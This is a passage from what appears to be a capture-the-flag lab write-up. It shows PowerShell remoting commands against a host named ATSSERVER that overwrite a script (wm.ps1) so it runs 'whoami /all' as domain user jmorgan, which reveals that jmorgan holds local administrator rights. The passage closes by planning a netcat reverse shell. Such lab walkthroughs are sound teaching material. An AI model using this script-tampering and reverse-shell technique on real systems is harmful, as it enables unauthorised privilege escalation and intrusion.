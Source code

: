 ```shell
    + CategoryInfo          : ObjectNotFound: (New-Object:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
 
You cannot call a method on a null-valued expression.
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
    + PSComputerName        : ATSSERVER
```

**Hmm... How about modifying the script using `Set-Content`...**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { (Get-Content -Path C:\Users\imonks\Desktop\wm.ps1) -replace "Get-Volume", "whoami /all" | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

**Now try to run the `wm.ps1` PowerShell script:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
USER INFORMATION
----------------

User Name     SID                                           
============= ==============================================
acute\jmorgan S-1-5-21-1786406921-1914792807-2072761762-1108
[...]
```

It worked! We can **execute commands as domain user `jmorgan` on `Acute-PC01`!**

**In the group information, we actually see that domain user `jmorgan` is a member of Administrators local group on `Acute-PC01`:** (Which also can be found in `Acute-PC01`'s edavies PowerShell reverse shell session)
```shell
[...]
GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
[...]
```

**That being said, we can get a reverse shell as `jmorgan` on `Acute-PC01` as a member of `Administrators` group via uploading a netcat executable in `C:\Utils\` and modifying `wm.ps1` script!**
